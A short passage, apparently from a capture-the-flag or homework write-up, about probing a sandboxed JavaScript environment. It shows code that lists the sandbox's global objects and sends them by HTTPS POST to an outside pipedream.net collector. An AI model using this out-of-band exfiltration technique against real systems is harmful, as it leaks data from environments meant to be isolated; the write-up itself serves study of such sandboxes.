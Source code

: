 ![Untitled](</hw5b/Untitled 17.png>)

So seems like some modules are already pre-installed, and we don’t (can’t) install our own modules. Let’s check what modules are there by first getting the list of modules, then sending it back as data:

```jsx
const data = JSON.stringify({
  "ok": Object.keys(this)
})

const options = {
      hostname: "woahthisisverycool.m.pipedream.net",
      path: "/vowbecomefemboy",
      method: "POST"
}

const req = https.request(options)
req.write(data)
req.end()
```
